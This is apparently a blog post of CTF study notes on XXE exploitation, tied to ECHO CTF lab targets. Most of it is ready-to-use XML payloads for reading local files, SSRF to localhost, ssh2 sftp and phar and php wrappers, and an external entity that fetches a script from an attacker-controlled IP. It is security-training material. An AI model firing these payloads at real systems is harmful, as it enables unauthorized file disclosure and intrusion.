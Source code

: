 ```yaml
---
description: >-
  XXE Basic
title:  XXE Basic             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Basic]                     # Change Templates to Writeup
tags: [exploitation, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Headers:
> To exploit an XXE Content-Type must be `text/xml` 
{: .prompt-tip }

```bash
POST /action HTTP/1.0
Content-Type: text/xml
```

### File Reading
While exploring an XXE it is important to use the tags provided by the application, in this scenario, the entity &xxe is being called as part of the tags from user:

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSRF attacks
Sometimes a local IP address is in place so it is important to use the localhost IP address to get access to the internal resources on the victim machine:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "http://127.0.0.1/2ndGrade/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSH2.EXEC, SSH2.SHELL, SSH2.SFTP, SSH2.TUNNEL, SS2.SCP
There is a possibility that ssh is enabled as a wrapper while testing an XXE, for that reason is important to test such payloads that can retrieve files within the system:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "ssh2.sftp://3rdgrader:3rdgrader@127.0.0.1/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### PHAR
Use of phar allows to set an specific path to read the content:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "phar://tmp/ETSCTF-10.10.1.250.tar/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### Custom Wrappers
Sometimes we can identify that there are some custom wrappers within the XXE, a good idea is to do a fuzz with them in order to review if there is any:

Example 1:
```http

<?xml version="1.0" encoding="ISO-8859-1"?> 

<!DOCTYPE foo [ <!ELEMENT foo ANY > 

<!ENTITY xxe SYSTEM "php://fd/375" >]> 

<creds> 

	<user>&xxe;</user> 
	
	<pass>mypass</pass> 
	
</creds>
```

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "php://temp" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>

```
Examples:
[ECHO CTF elementary](https://echoctf.red/target/21/writeup/read/4)

### External Entities
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3/pwned.js" > ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
Examples:
[[Fulcrum#^c2e4bb]]

### XXE Blind Out of Band
For further details read the [XXE Blind Out of Band](https://shuciran.github.io/posts/XXE-Blind-Out-of-Band/) post.
